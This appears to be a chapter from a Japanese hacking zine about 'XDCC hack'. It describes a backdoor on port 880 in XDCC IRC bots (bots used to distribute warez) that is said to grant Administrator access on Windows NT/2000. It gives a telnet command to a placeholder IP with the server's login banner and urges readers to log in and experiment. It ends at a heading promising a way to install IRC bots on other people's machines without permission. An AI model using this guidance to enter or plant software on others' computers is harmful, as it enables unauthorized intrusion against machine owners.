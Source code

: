 

***

## 第４章：XDCC hack

 著者：npyu

***


### 0x01 XDCC

　XDCCとは、IRCのロボットクライアントのことを指します。このIRCロボットは
主に、warezやmp3を配布する時などに利用します。XDCCを走らせているコンピュ
ータは、IRCチャネルでattackerによってリモートからハックされる脆弱性があり
ます。バックドアにより、attackerにリモートコンピュータからAdministrator権
限でIRCマシンにアクセスすることを許します。

　ターゲットOSは、Windows NT/2000（XP？）です。

　XDCC のバックドアは知る限りでは、ポート880上にセットアップされています。

●接続インタフェース

```
telnet xxx.xxx.xxx.xxx 880
Trying xxx.xxx.xxx.xxx...
Connected to xxx.xxx.xxx.xxx.
Escape character is '^]'.
220-Apache Web Server.
220-********************************************************
220- Welcome to ===> a XDCC!
220-********************************************************
220- Server Statistics:
220-
220- [ Your Ip xxx.xxx.xxx.xxx ]
220- [ Total Users: 3 total ][ Online Users: 1 ]
220- [ Downloaded: 0 kb ][ Uploaded: 0 kb ]
220- [ Average bandwith: 0.000 kb/sec ]
220- [ Current bandwith: 0.000 kb/sec ]
220- [ Free Space: 8009.39 mb ]
220- [ Uptime: 0 Days, 2 Hours, 28 Mins ]
220-
220-********************************************************
220- Have a Nice Day!
220 ********************************************************
```

　ログイン後、helpでどのようなコマンドか使えるのか調べるこどができます。
特にシステムのシェルインターフェースが使える訳ではなさそうですが、いろい
ろ試してみるのもいいでしょう。


### 0x02 他所様のマシンに自分勝手にIRCロボットをインストールさせる方法

